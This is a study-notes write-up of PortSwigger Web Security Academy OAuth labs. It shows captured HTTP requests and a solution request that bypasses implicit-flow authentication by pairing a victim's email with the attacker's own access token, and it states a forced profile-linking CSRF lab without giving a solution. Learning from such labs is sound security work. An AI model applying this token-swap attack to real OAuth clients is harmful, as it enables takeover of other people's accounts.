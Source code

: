 ```yaml
---
description: https://portswigger.net/web-security/oauth
---
```


# OAuth 2.0 authentication vulnerabilities

### Lab: Authentication bypass via OAuth implicit flow

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password.

To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net.

```
GET https://ac541fd41ec7d731c0806584006000b3.web-security-academy.net/
oauth-callback#access_token=-HREFB9WaEC0I5ql1EOA7eANdticm1myHd477RYKf6w&
expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1

GET /me HTTP/1.1
Host: oauth-acea1f801ee4d763c0da65c10266007d.web-security-academy.net
Authorization: Bearer -HREFB9WaEC0I5ql1EOA7eANdticm1myHd477RYKf6w

{"sub":"wiener","name":"Peter Wiener","email":"wiener@hotdog.com","email_verified":true}

POST /authenticate HTTP/1.1
...
{"email":"wiener@hotdog.com","username":"wiener","token":"tU-qmQ7s51oaWbQRBcFxAchRWD-Lznmrf-nav9vXxkE"}
```

**Solution:**

```
POST /authenticate HTTP/1.1
...
{"email":"carlos@carlos-montoya.net","username":"wiener","token":"tU-qmQ7s51oaWbQRBcFxAchRWD-Lznmrf-nav9vXxkE"}
```

### Lab: Forced OAuth profile linking

This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts.

To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session on the blog website.
